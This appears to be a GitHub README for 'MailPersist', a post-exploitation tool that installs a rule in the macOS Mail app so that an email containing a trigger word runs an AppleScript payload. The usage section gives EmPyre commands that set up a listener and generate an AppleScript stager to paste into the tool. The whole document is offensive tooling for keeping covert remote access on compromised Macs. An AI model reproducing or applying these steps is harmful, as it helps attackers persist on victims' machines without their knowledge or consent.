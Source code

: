 # MailPersist - Post Exploitation script for MacOS persistance 

## ABOUT:
This script creates a new rule in the MacOS Mail application to automatically trigger an appleScript payload when an email is recieved using a trigger word.

## INSTALL:
```
All dependancies are met on a default installation of MacOS.  With that said, you will likely want to use EmPyre
https://github.com/adaptivethreat/EmPyre
to create your appleScript payload. 
```

## USAGE:
Creating an appleScript payload with Empyre:
```
(EmPyre) > listeners
(EmPyre: listeners) > set Name mylistener
(EmPyre: listeners) > execute
(EmPyre: listeners) > usestager applescript mylistener
(EmPyre: stager/applescript) > execute
```
Open mail.py and paste the output in the specified area.  Modify the trigger word as you see fit.  
